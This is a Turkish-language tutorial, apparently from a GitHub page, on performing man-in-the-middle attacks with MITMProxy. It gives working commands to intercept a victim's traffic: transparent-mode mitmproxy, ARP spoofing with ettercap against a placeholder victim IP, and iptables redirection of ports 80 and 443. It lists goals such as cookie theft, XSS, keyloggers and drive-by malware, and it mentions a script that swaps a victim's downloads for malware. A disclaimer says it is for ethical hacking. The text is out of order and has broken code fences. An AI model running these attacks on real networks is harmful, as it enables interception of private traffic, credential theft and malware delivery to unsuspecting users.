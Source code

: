 **📌 Bu betik, hedef kullanıcının indirdiği yazılımı saldırganın zararlı dosyasıyla değiştirir.**

7. MITMProxy Script'lerini Çalıştırma
Bu saldırı betiklerini çalıştırmak için şu komutu kullanabilirsiniz:
```bash
mitmproxy -s attack\_script.py
veya
```bash
mitmweb -s attack\_script.py
```
Mitmweb kullanıyorsanız, http://127.0.0.1:8081 adresinden manuel müdahale edebilirsiniz.

## Sonuç
**✅ MITMProxy ile Enjeksiyon Teknikleri:**
XSS saldırısı enjekte etme
Kimlik doğrulama çerezlerini çalma
SQL Injection payload ekleme
Komut enjeksiyonu
Keylogger ekleyerek kurbanın klavye girdilerini kaydetme
Zararlı yazılım yükleme (drive-by-download saldırıları)
MITMProxy ile Man-in-the-Middle (MITM) Saldırısı Nasıl Yapılır?
MITMProxy, HTTP ve HTTPS trafiğini dinleyerek, değiştirilmiş veya zararlı veriler enjekte ederek Man-in-the-Middle (MITM) saldırıları yapmak için kullanılabilir. Bu kılavuz, MITM saldırısının nasıl gerçekleştirileceğini adım adım anlatmaktadır.
**📌 UYARI: Bu teknikler yalnızca etik hackerlık, güvenlik testleri ve eğitim amaçlıdır. Yetkisiz saldırılar yasa dışıdır.**

1. MITM Saldırısı Nedir?
Man-in-the-Middle (MITM) saldırısı, saldırganın kurban ile hedef sunucu arasındaki trafiği gizlice dinlediği, değiştirdiği ve yönlendirdiği bir saldırıdır. MITMProxy, bu saldırıyı gerçekleştirmek için güçlü bir araçtır.
**✔ HTTPS ve HTTP trafiğini analiz edebilir**
**✔ Veri paketlerini değiştirebilir veya yönlendirebilir**
**✔ Oturum çerezlerini (session cookies) çalabilir**
**✔ Formlara veya yanıt içeriklerine zararlı kod enjekte edebilir**

2. MITMProxy Kullanarak MITM Saldırısı Nasıl Yapılır?
MITM saldırısı yapmak için aşağıdaki adımları uygulayacağız:
**🔹 Adım 1: MITMProxy’yi Kurma**
MITMProxy’yi kurmak için şu komutları kullanabilirsiniz:
```bash
sudo apt update
sudo apt install mitmproxy -y
**📌 Windows kullanıyorsanız: MITMProxy’yi indirip yükleyebilirsiniz.**
```
**🔹 Adım 2: MITMProxy’yi Trafiği Dinlemeye Başlatma**
MITM saldırısını gerçekleştirmek için MITMProxy’yi şu şekilde başlatabilirsiniz:
```bash
sudo mitmproxy -p 8080 --mode transparent
**📌 Bu komut MITMProxy’yi 8080 portunda başlatır ve transparan modda çalıştırır.**
```
**🔹 Adım 3: Ağ Trafiğini Yönlendirme (ARP Spoofing)**
MITM saldırısı için kurbanın ağ trafiğini kendi cihazımıza yönlendirmemiz gerekir. Bunu ARP Spoofing ile yapabiliriz.
## ⃣ Ettercap Kullanarak ARP Spoofing Yapma
Eğer ağdaki kurbanın trafiğini MITMProxy’ye yönlendirmek istiyorsanız:
```bash
sudo ettercap -T -i eth0 -M arp:remote /KURBAN\_IP/ /AĞ\_GEÇİDİ\_IP/
**📌 Bu komut, kurbanın (KURBAN\_IP) tüm ağ trafiğini sizin bilgisayarınıza yönlendirir.**
## ⃣ iptables Kullanarak Trafiği Yönlendirme
MITMProxy ile kurbanın trafiğini yakalamak için aşağıdaki iptables kurallarını uygulayın:
```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
**📌 Bu kurallar, tüm HTTP ve HTTPS trafiğini MITMProxy’ye yönlendirir.**
```